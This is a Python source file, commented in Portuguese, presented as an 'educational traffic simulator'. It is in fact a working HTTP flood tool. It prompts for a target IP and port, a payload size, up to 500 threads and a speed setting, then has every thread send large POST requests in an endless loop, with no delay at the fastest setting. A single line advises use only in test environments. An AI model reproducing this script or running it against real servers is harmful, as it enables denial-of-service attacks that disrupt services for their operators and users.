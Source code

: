 import requests
import threading
import time

# Função para enviar requisições
def send_request(url, data, num_threads, delay):
    def request_task():
        try:
            while True:
                response = requests.post(url, data=data)
                print(f"Requisição enviada! Status: {response.status_code}")
                time.sleep(delay)  # Controla a velocidade do envio
        except Exception as e:
            print(f"Erro: {e}")

    # Criar múltiplas threads
    threads = []
    for _ in range(num_threads):
        thread = threading.Thread(target=request_task)
        threads.append(thread)
        thread.start()

    # Aguardar todas as threads
    for thread in threads:
        thread.join()

# Painel de controle
def main():
    print("### Simulador Educacional de Tráfego ###")
    print("ATENÇÃO: Use este script apenas em ambientes de teste controlados.")
    
    # Configuração do alvo
    ip = input("Digite o IP de destino (ex.: 192.168.0.1): ")
    port = input("Digite a porta de destino (ex.: 5000): ")

    try:
        port = int(port)
        if port < 1 or port > 65535:
            raise ValueError("Porta inválida!")
    except ValueError:
        print("Erro: Porta deve ser um número entre 1 e 65535.")
        return

    url = f"http://{ip}:{port}/data"
    print(f"\nConfiguração definida: {url}")
    
    # Configuração de dados
    data_size = int(input("Tamanho dos dados a enviar (em KB): ")) * 1024
    num_threads = int(input("Número de threads (máximo 500): "))
    if num_threads > 500:
        print("Erro: Máximo de 500 threads permitido!")
        return

    # Configuração da velocidade
    print("\nEscolha a velocidade de execução (1 - Mais lenta, 5 - Mais rápida):")
    print("1: Muito lenta (2 segundos por requisição)")
    print("2: Lenta (1 segundo por requisição)")
    print("3: Moderada (0.5 segundos por requisição)")
    print("4: Rápida (0.1 segundos por requisição)")
    print("5: Muito rápida (Sem atraso)")
    
    speed_choice = input("Escolha um nível de velocidade (1 a 5): ")

    try:
        speed_choice = int(speed_choice)
        if speed_choice < 1 or speed_choice > 5:
            raise ValueError("Escolha inválida!")
    except ValueError:
        print("Erro: Escolha deve ser um número entre 1 e 5.")
        return

    # Mapeando a velocidade com base na escolha
    delay_map = {1: 2.0, 2: 1.0, 3: 0.5, 4: 0.1, 5: 0.0}
    delay = delay_map[speed_choice]

    # Confirmação
    print(f"\nConfirmar execução:")
    print(f"Alvo: {url}")
    print(f"Tamanho dos dados: {data_size} bytes")
    print(f"Threads: {num_threads}")
    print(f"Velocidade: {'Sem atraso' if delay == 0 else f'{delay} segundos entre requisições'}")
    confirm = input("Deseja iniciar? (s/n): ")

    if confirm.lower() == "s":
        data = "X" * data_size
        print("Iniciando envio de requisições...")
        send_request(url, data, num_threads, delay)
    else:
        print("Cancelado.")

if __name__ == "__main__":
    main()
